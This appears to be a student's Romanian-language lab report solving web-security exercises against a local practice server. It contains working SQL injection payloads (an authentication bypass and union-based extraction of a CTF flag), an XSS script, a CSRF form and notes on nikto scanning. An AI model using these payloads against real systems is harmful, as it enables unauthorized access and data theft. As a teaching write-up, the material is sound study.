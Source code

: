 Student: Margineanu Vladut
Grupa: 341 C2

						Laborator 8

	Cerinta 1

 Serverul ruleaza direct un query. Cu urmatorul SQL injection (cu stringurile date la login):
```
 SELECT * FROM tabela WHERE username=<user> AND PASSWORD=<passwd> LIMIT 	1
```
```
 SELECT * FROM tabela WHERE username='' OR 1=1 -- ' AND PASSWORD=<passwd>
```
Comment:  username este string care se evalueaza la true: 
	```
	' ' OR 1=1 -- ' fac ca restul comenzii, pana la ' sa fie comentat
	```

	Cerinta 2
	
```
 SELECT col1, col2... FROM tablename WHERE name='' UNION (SELECT 1, 2, ...)  -- bruteforce the number of columns! '
```

 1. Incercam sa ne logam cu:
```
  ' or 1 order by 1,2,3,4,5,6,7,8,9,10 -- x
```
 - se observa eroarea la coloana 5 => avem 4 coloane

 2. Ne logam cu:
 ```
  ' union select 1, 2, 3, group_concat(table_name separator ',') from information_schema.tables where table_schema='guestbook' -- x
  ```
 - se observa ca avem tabelele: entries, flags, users

 3. Aflam care e coloana cu flag-ul:
 ```
 ' union select 1, 2, 3, group_concat(column_name separator ',') from information_schema.columns where table_schema='guestbook' and table_name='flags' -- x
 ```

 4. Selectam flagul din tabela.
 ```
 ' union select 1, 2, 3, flag from guestbook.flags -- x
 ```

 Se obtine flag-ul: SpeishFlag{th1sw4sSQL1nj3cti0n}!

	Cerinta 3

 Mesajele scrise in chenarul din server sunt interpretate ca HTML. 
 Orice script e bagat in HTML si executat. Asadar, mesajul contine:
 
```
 <script>
 alert("Arafat!");
 </script> 
```
-  genereaza un "dialog box" in care scrie "Arafat!"

	Cerinta 4

 Form al guestbook-ului:
 ```
<form method="post" action="/guestbook/post">
  <p>
    <div><label for="message">Message:</label></div>
    <textarea id="message" name="message" rows="3" cols="80"></textarea>
  </p>
  <p>
    <input type="submit" value="Send">
  </p>
</form>
```

 L-am refactorizat local:
 ```
<form method="post" action="http://localhost:8080/guestbook/post">
  <p>
    <label>Boss:</label>
    <input type="hidden" id="message" name="message" value="Voucher 2021">
  </p>
  <p>
    <input type="submit" value="Click Here!">
  </p>
</form>
```

	Cerinta 5
 - cu utilitarul nikto, am scanat server-ul si am gasit fisierul server.js. 
 - l-am descarcat cu comanda curl si l-am adaugat in arhiva

 




